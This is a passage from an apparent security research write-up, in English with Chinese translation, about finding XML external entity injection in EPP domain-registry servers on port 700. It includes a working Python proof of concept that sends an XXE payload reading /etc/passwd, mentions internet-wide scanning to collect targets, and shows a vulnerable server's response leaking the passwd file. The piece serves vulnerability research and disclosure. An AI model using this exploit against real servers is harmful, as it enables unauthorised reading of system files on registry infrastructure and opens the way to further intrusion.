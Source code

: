 When hacking any system, you cannot make assumptions on its security posture as you will risk not testing certain vulnerability classes. Coming from the web application security angle, our immediate thoughts for targeting this protocol was testing for the presence of [XML external entity injection](https://portswigger.net/web-security/xxe).  
当黑客攻击任何系统时，你不能对它的安全状态做出假设，因为你将冒着不测试某些漏洞类的风险。从 Web 应用程序安全的角度来看，我们针对该协议的直接想法是测试 XML 外部实体注入的存在。

In order to do this, we modified a Python EPP client and crafted an XML payload in the correct format. This XML payload contained our XXE attack at the top. From scanning the internet and relying on passive data for IPs with port 700 open, we were able to amass a large list of EPP servers to attempt our research on.  
为了做到这一点，我们修改了一个 Python EPP 客户端，并以正确的格式制作了一个 XML 负载。这个 XML 有效载荷在顶部包含了我们的 XXE 攻击。通过扫描互联网并依赖于端口 700 打开的 IP 的被动数据，我们能够收集大量的 EPP 服务器来尝试我们的研究。

Our proof-of-concept was extremely effective:  
我们的概念验证非常有效：

```python
from epp import epp_client
import sys

ip = sys.argv[1]
try:
	conn = epp_client.EPPConnection(
		host=ip,
		port=700,
		user='epp_user_01',
		password='some_secret',
		verbose=True,
		return_soup=True,
	)
	conn.open()
	print(conn.call("<?xml version=\"1.0\" standalone=\"no\"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file:///etc/passwd\"> ]> <epp xmlns=\"urn:ietf:params:xml:ns:epp-1.0\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xsi:schemaLocation=\"urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd\"> <command> <poll op='req' /> <clTRID>&xxe;</clTRID> </command> </epp>".format(ip)))
except:
	print('failed lol')
```

Running this on a vulnerable server yielded the following:  
在易受攻击的服务器上运行此命令会产生以下结果：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?><html><body><epp xmlns="urn:ietf:params:xml:ns:epp-1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemalocation="urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd"><response><result code="2001"><msg>Command syntax error</msg><extvalue><value xmlns:epp="urn:ietf:params:xml:ns:epp-1.0"><epp:undef></epp:undef></value><reason>XML Parser: unknown-55ccdac19830:0: Schemas validity error : Element '{urn:ietf:params:xml:ns:epp-1.0}clTRID': [facet 'maxLength'] The value has a length of '1845'; this exceeds the allowed maximum length of '64'.
unknown-55ccdac19830:0: Schemas validity error : Element '{urn:ietf:params:xml:ns:epp-1.0}clTRID': 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```